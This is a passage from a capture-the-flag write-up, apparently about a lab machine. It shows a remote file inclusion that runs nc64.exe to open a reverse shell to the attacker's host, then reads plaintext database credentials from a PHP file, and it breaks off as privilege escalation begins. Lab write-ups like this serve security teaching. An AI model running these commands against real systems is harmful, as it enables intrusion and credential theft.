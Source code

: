 To get a shell, I’ll just include a command to run `nc64.exe` from the same Samba share:

```

root@kali# curl -s -G 'http://10.10.10.151/blog/' --data-urlencode 'lang=\\10.10.14.6\share\cmd.php' --data-urlencode 'cmd=\\10.10.14.6\share\nc64.exe -e cmd 10.10.14.6 443'

```

And I get a callback:

```

root@kali# rlwrap nc -lnvp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.151.
Ncat: Connection from 10.10.10.151:57204.
Microsoft Windows [Version 10.0.17763.678]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\inetpub\wwwroot\blog>whoami
whoami
nt authority\iusr

```

## Priv: iusr –> Chris

### Enumeration

Looking around, there are creds for the database in the PHP:

```

C:\inetpub\wwwroot\user>type db.php
type db.php
<?php
// Enter your Host, username, password, database below.
// I left password empty because i do not set password on localhost.
$con = mysqli_connect("localhost","dbuser","36mEAhz/B8xQ~2VM","sniper");
// Check connection
if (mysqli_connect_errno())
  {
  echo "Failed to connect to MySQL: " . mysqli_connect_error();
  }
?>

```

### Runas

I know the other user on the box is Chris from the `\users\` directory, so I’ll try to run as them using PowerShell. First I’ll open PowerShell:
